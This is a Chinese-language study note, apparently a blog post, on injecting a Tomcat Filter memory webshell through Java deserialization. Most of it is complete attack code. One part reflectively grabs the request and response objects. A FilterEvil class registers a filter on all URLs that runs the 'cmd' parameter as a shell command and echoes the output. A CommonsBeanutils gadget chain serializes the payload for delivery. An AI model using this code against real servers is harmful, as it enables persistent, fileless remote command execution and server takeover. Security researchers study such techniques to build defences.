




# Filter内存马的反序列化注入

## 前言

学习自天下大木头师傅的文章。之所以会有这一篇是因为之前构造的jsp文件实际上还是需要文件落地，因此想办法利用反序列化利用的命令执行来注入内存马。只简单介绍一下，具体参考天下大木头师傅的文章。


## 构造回显

因为`jsp`的`request`和`response`可以直接获取，但是反序列化的时候却不能。

最终的思路是找到了2个static变量：

```java
    private static final ThreadLocal<ServletRequest> lastServicedRequest;
    private static final ThreadLocal<ServletResponse> lastServicedResponse;
```

在`internalDoFilter `中会放入我们需要的`request`和`response`

```java
                if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
                    lastServicedRequest.set(request);
                    lastServicedResponse.set(response);
                }
```


但是

```java
    static {
        if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
            lastServicedRequest = new ThreadLocal();
            lastServicedResponse = new ThreadLocal();
        } else {
            lastServicedRequest = null;
            lastServicedResponse = null;
        }

        sm = StringManager.getManager(ApplicationFilterChain.class);
        classType = new Class[]{ServletRequest.class, ServletResponse.class, FilterChain.class};
        classTypeUsedInService = new Class[]{ServletRequest.class, ServletResponse.class};
    }
```


默认`WRAP_SAME_OBJECT`是false导致了他们都会null，因此利用反射来修改，第二次再访问的时候就能取到`request`和`response`了。

直接给出POC：

```java
        Class appDispatcherClass = Class.forName("org.apache.catalina.core.ApplicationDispatcher");
        Field wrapField = appDispatcherClass.getDeclaredField("WRAP_SAME_OBJECT");
        wrapField.setAccessible(true);
        //修改final
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        // 把指定的field中的final修饰符去掉
        modifiersField.setInt(wrapField, wrapField.getModifiers() & ~Modifier.FINAL);

        Class appFilterChainClass = Class.forName("org.apache.catalina.core.ApplicationFilterChain");

        Field lastServicedRequestField = appFilterChainClass.getDeclaredField("lastServicedRequest");
        Field lastServicedResponseField = appFilterChainClass.getDeclaredField("lastServicedResponse");
        lastServicedRequestField.setAccessible(true);
        lastServicedResponseField.setAccessible(true);
        modifiersField.setInt(lastServicedRequestField,lastServicedRequestField.getModifiers()& ~Modifier.FINAL);
        modifiersField.setInt(lastServicedResponseField,lastServicedResponseField.getModifiers()& ~Modifier.FINAL);

        ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(appFilterChainClass);
        ThreadLocal<ServletResponse> lastServicedResponse = (ThreadLocal<ServletResponse>) lastServicedResponseField.get(appFilterChainClass);

        String cmd = lastServicedRequest==null?null:lastServicedRequest.get().getParameter("cmd");
        if (!wrapField.getBoolean(appDispatcherClass)||lastServicedRequest==null||lastServicedResponse==null){
            wrapField.set(null,true);
            lastServicedRequestField.set(null,new ThreadLocal());
            lastServicedResponseField.set(null,new ThreadLocal());
        }else if (cmd!=null){
            String[] cmds = {"cmd","/c",cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            byte[] bcache = new byte[1024];
            int readSize = 0;
            try(ByteArrayOutputStream outputStream = new ByteArrayOutputStream()){
                while ((readSize =in.read(bcache))!=-1){
                    outputStream.write(bcache,0,readSize);
                }
                lastServicedResponse.get().getWriter().println(outputStream.toString());
            }

        }
```

其中有一个需要注意的点就是如何反射修改final属性：

```java
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        // 把指定的field中的final修饰符去掉
        modifiersField.setInt(wrapField, wrapField.getModifiers() & ~Modifier.FINAL);
		wrapField.set(null,true);
```

第二次访问即可获得回显：




## 反序列化注入

实际上就是结合了，先通过构造回显的思路得到`request`和`response`，然后再把之前filter内存马的那个拿过来，只需要改一个地方就行了。

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.ApplicationContextFacade;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Modifier;
import java.util.HashMap;

public class FilterEvil extends AbstractTranslet implements Filter {
    static {
        try {
            Class appDispatcherClass = Class.forName("org.apache.catalina.core.ApplicationDispatcher");
            Field wrapField = appDispatcherClass.getDeclaredField("WRAP_SAME_OBJECT");
            wrapField.setAccessible(true);
            //修改final
            Field modifiersField = Field.class.getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            // 把指定的field中的final修饰符去掉
            modifiersField.setInt(wrapField, wrapField.getModifiers() & ~Modifier.FINAL);

            Class appFilterChainClass = Class.forName("org.apache.catalina.core.ApplicationFilterChain");

            Field lastServicedRequestField = appFilterChainClass.getDeclaredField("lastServicedRequest");
            Field lastServicedResponseField = appFilterChainClass.getDeclaredField("lastServicedResponse");
            lastServicedRequestField.setAccessible(true);
            lastServicedResponseField.setAccessible(true);
            modifiersField.setInt(lastServicedRequestField, lastServicedRequestField.getModifiers() & ~Modifier.FINAL);
            modifiersField.setInt(lastServicedResponseField, lastServicedResponseField.getModifiers() & ~Modifier.FINAL);

            ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(appFilterChainClass);
            ThreadLocal<ServletResponse> lastServicedResponse = (ThreadLocal<ServletResponse>) lastServicedResponseField.get(appFilterChainClass);


            if (!wrapField.getBoolean(appDispatcherClass) || lastServicedRequest == null || lastServicedResponse == null) {
                wrapField.set(null, true);
                lastServicedRequestField.set(null, new ThreadLocal());
                lastServicedResponseField.set(null, new ThreadLocal());
            }else {

                ServletRequest servletRequest = lastServicedRequest.get();
                ServletResponse servletResponse = lastServicedResponse.get();

                //开始注入内存马
                ServletContext servletContext = servletRequest.getServletContext();
                ApplicationContextFacade applicationContextFacade = (ApplicationContextFacade) servletContext;
                Field applicationContextFacadeContext = applicationContextFacade.getClass().getDeclaredField("context");
                applicationContextFacadeContext.setAccessible(true);
                ApplicationContext applicationContext = (ApplicationContext) applicationContextFacadeContext.get(applicationContextFacade);
                Field applicationContextContext = applicationContext.getClass().getDeclaredField("context");
                applicationContextContext.setAccessible(true);
                StandardContext standardContext = (StandardContext) applicationContextContext.get(applicationContext);


                Field filterConfigs = standardContext.getClass().getDeclaredField("filterConfigs");
                filterConfigs.setAccessible(true);
                HashMap hashMap = (HashMap) filterConfigs.get(standardContext);
                String filterName = "feng";

                if (hashMap.get(filterName) == null) {

                    Filter filter = new FilterEvil();


                    FilterDef filterDef = new FilterDef();
                    filterDef.setFilter(filter);
                    filterDef.setFilterName(filterName);
                    filterDef.setFilterClass(filter.getClass().getName());
                    standardContext.addFilterDef(filterDef);

                    FilterMap filterMap = new FilterMap();
                    filterMap.addURLPattern("/*");
                    filterMap.setFilterName(filterName);
                    filterMap.setDispatcher(DispatcherType.REQUEST.name());
                    standardContext.addFilterMapBefore(filterMap);


                    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
                    constructor.setAccessible(true);
                    ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
                    hashMap.put(filterName, applicationFilterConfig);

                    servletResponse.getWriter().println("inject successfully");
                }
            }

        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        } catch (InvocationTargetException e) {
            e.printStackTrace();
        } catch (NoSuchMethodException e) {
            e.printStackTrace();
        } catch (InstantiationException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        if (request.getParameter("cmd") != null) {
            //String[] cmds = {"/bin/sh","-c",request.getParameter("cmd")}
            String[] cmds = {"cmd", "/c", request.getParameter("cmd")};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            byte[] bcache = new byte[1024];
            int readSize = 0;
            try (ByteArrayOutputStream outputStream = new ByteArrayOutputStream()) {
                while ((readSize = in.read(bcache)) != -1) {
                    outputStream.write(bcache, 0, readSize);
                }
                response.getWriter().println(outputStream.toString());
            }
        }


    }

    @Override
    public void destroy() {
        //Filter.super.destroy();
    }
}

```

唯一改的地方就是这里：

```java
                if (hashMap.get(filterName) == null) {

                    Filter filter = new FilterEvil();
```

为什么不是`new Filter`了，在三梦时候的构造中有这么一个问题：



> 因为`this.context.getState()`在运行时返回的state已经是`LifecycleState.STARTED`了，所以直接就抛异常了，filter根本就添加不进去。

虽然不知道为什么，但是如果按之前那样写：

```java
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {
                //Filter.super.init(filterConfig);
                //System.out.println("内存马init");
            }

            @Override
            public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
                if (request.getParameter("cmd")!=null){
                    //String[] cmds = {"/bin/sh","-c",request.getParameter("cmd")}
                    String[] cmds = {"cmd","/c",request.getParameter("cmd")};
                    InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                    byte[] bcache = new byte[1024];
                    int readSize = 0;
                    try(ByteArrayOutputStream outputStream = new ByteArrayOutputStream()){
                        while ((readSize =in.read(bcache))!=-1){
                            outputStream.write(bcache,0,readSize);
                        }
                        response.getWriter().println(outputStream.toString());
                    }
                }


            }

            @Override
            public void destroy() {
                Filter.super.destroy();
            }
        };
```

反序列化之后触发到这里的时候会直接报错。猜测可能有类似的原因，所以直接把恶意类构造成`Filter`即可。

随便拿CB链模拟反序列化打：

```java
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator("outputProperties");

        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);


        SerializeUtil.setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        SerializeUtil.setFieldValue(priorityQueue,"size",2);
        byte[] bytes = SerializeUtil.serialize(priorityQueue);
        System.out.println(Base64.getEncoder().encodeToString(bytes));
```





注入成功！

那个要改的点卡了我一个晚上，呜呜呜呜呜呜呜太难受了。